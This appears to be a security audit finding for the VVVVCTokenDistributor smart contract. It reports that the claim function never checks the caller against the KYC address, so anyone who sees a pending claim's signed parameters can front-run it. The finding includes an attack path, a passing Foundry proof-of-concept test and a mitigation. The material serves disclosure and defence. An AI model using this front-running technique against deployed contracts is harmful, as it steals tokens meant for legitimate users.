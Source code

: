 Handsome Lemon Tapir

High

# Front-Running Vulnerability in `VVVVCTokenDistributor.sol::claim` Function


Front-Running Vulnerability in `VVVVCTokenDistributor.sol::claim` Function

## Summary

A critical front-running vulnerability has been identified in the `claim` function of the `VVVVCTokenDistributor.sol` contract. This vulnerability allows an attacker to intercept and execute a claim transaction before the legitimate user, resulting in the unauthorized transfer of tokens to the attacker. The root cause is the lack of proper authorization checks to verify that the caller is authorized to claim tokens on behalf of the specified KYC address.



## Root Cause

Lack of Caller Verification: The `VVVVCTokenDistributor.sol::claim` function does not verify that `msg.sender` is the `kycAddress`. This allows any user to call the function with valid `ClaimParams` and receive the tokens.

https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol?plain=1#L106-L145

https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol?plain=1#L133

```javascript
projectToken.safeTransferFrom(
    _params.projectTokenProxyWallets[i],
@>  msg.sender, // Tokens are transferred to msg.sender without verifying authorization
    _params.tokenAmountsToClaim[i]
);
```







## Attack Path

- Alice, a legitimate user with a verified kycAddress, prepares to call the claim function with her `ClaimParams` and signature.
- An attacker, Bob, monitors the network and observes Alice's pending transaction in the mempool.
- Bob extracts the `ClaimParams` and signature from Alice's transaction.
- He submits his own transaction to the `claim` function with the same `ClaimParams` and he is the caller (msg.sender).
- Bob's transaction is processed before Alice's, due to higher gas fees or network conditions.
- The contract transfers the tokens to Bob's address.
- The nonce for Alice's kycAddress is updated, invalidating her transaction.
- Bob successfully receives the tokens intended for Alice.
Alice's transaction fails with an InvalidNonce error, and she cannot claim her tokens without obtaining a new signature.



## Impact

- Financial Loss: Protocol and Users will suffer financial losses due to stolen tokens.
- Unauthorized Token Transfers: Attackers can intercept and claim tokens intended for legitimate users.
- Denial of Service: Legitimate users are prevented from claiming their tokens due to nonce invalidation.




## POC

add this to `VVVVCTokenDistributor.unit.t.sol`:

```javascript
    // Test that an attacker can front-run a legitimate claim
    function testFrontRunningAttack() public {
        // Step 1: Generate claim parameters and signature intended for the legitimate user (sampleKycAddress)
        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress, // Legitimate KYC address
            projectTokenProxyWallets,
            sampleTokenAmountsToClaim
        );

        // Step 2: Simulate the attacker's address
        address attacker = address(0xDEADBEEF);
        uint256 attackerBalance = ProjectTokenInstance.balanceOf(attacker);
        assertEq(attackerBalance, 0, "Attacker dont have 0 tokens");

        // Step 3: The attacker front-runs the transaction by submitting the same claim parameters
        vm.startPrank(attacker, attacker);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();

        // Step 4: Verify that the attacker received the tokens
        attackerBalance = ProjectTokenInstance.balanceOf(attacker);
        assertEq(attackerBalance, sum(sampleTokenAmountsToClaim), "Attacker did not receive the tokens");
        assertGt(attackerBalance, 0, "Attacker did not receive the tokens");

        // Step 5: Now, the legitimate user tries to claim with the same parameters
        vm.startPrank(sampleKycAddress, sampleKycAddress);
        vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();

        // Step 6: Verify that the legitimate user did not receive any tokens
        uint256 userBalance = ProjectTokenInstance.balanceOf(sampleKycAddress);
        assertEq(userBalance, 0, "Legitimate user should not have received tokens");

        // Step 7: Output a message indicating the test demonstrates the vulnerability
        emit log("Front-running attack successful: Attacker claimed tokens intended for legitimate user");
    }
```


```text
└─[0]  forge test --mt testFrontRunningAttack -vv  
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/vc/VVVVCTokenDistributor.unit.t.sol:VVVVCTokenDistributorUnitTests
[PASS] testFrontRunningAttack() (gas: 178841)
Logs:
  Front-running attack successful: Attacker claimed tokens intended for legitimate user

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.45ms (684.15µs CPU time)

Ran 1 test suite in 8.71ms (5.45ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```



## Mitigation

Implement an authorization check in the claim function to ensure that only the kycAddress or an authorized alias can initiate the claim.






